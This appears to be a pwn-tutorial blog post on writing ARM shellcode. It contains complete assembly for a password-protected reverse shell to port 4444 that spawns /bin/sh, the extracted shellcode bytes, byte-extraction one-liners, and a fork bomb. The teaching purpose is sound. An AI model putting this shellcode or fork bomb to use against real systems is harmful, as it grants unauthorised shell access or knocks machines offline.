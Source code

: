```yaml
---
title: Writing ARM Shellcodes
date: 2022-9-26
layout: single
classes: wide
tags:
  - Assembly
  - Pwn
  - Shellcode
--- 
```


This first post will teach you how to write shellcodes in ARM.

## Shellcode Writing Basics

**Registers:**
- `R0-R10` : General Purpose Register
- `R11`    : Frame Pointer (FP)
- `R12`    : Intra Procedural Call (IPC)
- `R13`    : Stack Pointer (SP)
- `R14`    : Link Register (LR)
- `R15`    : Program Counter/Instruction Pointer (PC)


ARM has 2 modes, the Thumb mode has instructions in 16 bits and the ARM mode has instructions in 32 bits.

to switch in Thumb mode here is what you have to do : 
```asm
 add r0, pc, #1
 bx  r0
// le code qui suivera sera en thumb mode
```
in a first time we add 1 to PC (Program Counter) then we put the result in r0. For the 2nd instruction we use BX (Branch & Exchange) in r0. If LSB=1 (low weight bit) then we are in thumb mode.

![](https://i.imgur.com/z7tNUe5.png)




several techniques exist to parse a shellcode:

1 - usage of awk
```bash
for i in $(objdump -d hello | grep "^ "|awk -F"[\t]" '{print $2}'); do echo -n ${i:6:2}${i:4:2}${i:2:2}${i:0:2};done| sed 's/.\{2\}/\\x&/g'
```
2 - usage of regex + **addition of double quotes**
```bash
objdump -d hello |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
3 - usage of **hexdump** and **objcopy**
```bash
objcopy -O binary fichier.bin fichier.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' fichier.dump
```

![](https://i.imgur.com/VUjjIrl.png)



### Reverse Shell in ARM

![](https://i.imgur.com/xbUxAgq.png)

here is how to make a structure in ARM : 

```nasm
adr r1, _sockaddr @ sockaddr struct 
...

_sockaddr: 
 	.hword 2 @ sin_family 
 	.hword 0x5c11 // sin_port 4444
 	.word 0x100007f @ sin_addr 127.0.0.1
 	.byte 0,0,0,0,0,0,0,0 @ sin_zero 
```
then we use dup2() to redirect the standard outputs.

### Password-Protected Reverse Shell

```nasm
.section .text
.global _start
_start:

.arm
    add   r3, pc, #1
    bx    r3

.thumb

    mov   r0, #2
    mov   r1, #1
    eor   r2, r2
    mov   r7, #200
    add   r7, #81
    svc   #1
mov   r10, r0 
    adr   r1, target
    strb  r2, [r1, #1]
    strb  r2, [r1, #5]
    strb  r2, [r1, #6] 
    mov   r2, #16
    add   r7, #2  
    svc   #1
    push  {r1}
    mov   r1, sp
    mov   r2, #4
    mov   r7, #3
    .read_pass:
        mov   r0, r10
        svc   #1
    .check_pass:
        ldr   r3, pass
        ldr   r4, [r1]
        eor   r3, r3, r4
    bne .read_pass
    mov   r1, #2 
    mov   r7, #63    
    .loop_stdio:
        mov   r0, r10
        svc   #1
        sub   r1,#1
    bpl .loop_stdio
    adr   r0, command
    eor   r2, r2
    eor   r1, r1
    strb  r2, [r0, #7]
    mov   r7, #11 
    svc   #1

target:
    .ascii "\x02\xff"  
    .ascii "\x11\x5c"
    
    .byte 127,255,255,1 
    
command: .ascii "/bin/sh?"
pass: .ascii "RistBS=aker"
```

if you didn't know, the registers from r0 to r10 are general purpose registers, the register r7 is used to identify the NR of the syscall.

This ascii character `x02\xff\x11\x5c` shows that we are using the TCP proto in IPv4 on port 4444.

**`.read_pass` & `.check_pass` Function:**

for the read function we will just use the C Function: `read(sourcefd, destbuffer, amount)`

- `eor r3, r3, r4` = *r3=r3^r4*
- `bne .read_pass` (Department if Not Equal) equivalent to JNE in x86. This instruction will jump to reading the mdp if it is not equal to the first args passed in r1. (address of r1 retrieved and stored in r4)


```bash
as ARM-reverse-shell.s -o ARM-reverse-shell.o && ld -N ARM-reverse-shell.o -o ARM-reverse-shell && objcopy -O binary ARM-reverse-shell ARM-reverse-shell.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' ARM-reverse-shell.dump

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x82\x46\x0e\xa1\x4a
\x70\x4a\x71\x8a\x71\x10\x22\x02\x37\x01\xdf\x02\xb4\x69\x46\x04\x22\x03\x27\x50\x46\x01\xdf\x0b\x4b\x0c\x68\x63\x40\xf9\xd1\x02\x21\x3f\x27\x50\x46\x01\xdf\x01\x39\xfb\xd5\x04\xa0\x52\x40\x49\x40\xc2
\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\x7f\xff\xff\x01\x2f\x62\x69\x6e\x2f\x73\x68\x3f\x53\x35\x39\x21
```

> Source : https://github.com/alanvivona/pwnshop/blob/master/src/0x15-ARM-shellcode/ARM-reverse-shell-with-auth.s


### Final test : ForkBomb


| NR | Syscall Name | %r7      |  arg0 (%r0)       |
| ---- |:----------------------- | --- | ----
| 2      | fork | 0x02 |    - |

```nasm
.text
.global .start

.start:
	.code 32   
	add r3, pc, #1	
	bx r3

	.code 16
	.loop:
		eor r7, r7 
		add r7, #2
		svc #1
		mov r8, r8
		bl .loop
```

![](https://i.imgur.com/GcsZD2P.png)


### useful ressources : 
- https://www.youtube.com/watch?v=9tx293lbGuc
- https://www.youtube.com/watch?v=c_jUELOScLc

